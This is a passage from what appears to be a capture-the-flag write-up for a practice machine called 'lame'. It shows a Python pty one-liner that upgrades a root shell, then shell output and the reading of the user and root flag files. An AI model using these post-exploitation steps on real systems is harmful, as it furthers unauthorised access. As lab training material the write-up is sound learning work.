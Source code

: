 sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old


```

```
```
which python
```

In this particular case that will be enought, we can use the following command to spawn an interactive shell
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

```
python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# whoami
whoami
root
```

```
root@lame:/home/makis# cat user.txt
cat user.txt 
[REDACTED]
```

```
root@lame:/home/makis# cd /root
cd /root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
[REDACTED]

```
Now we can submit our flags ;)
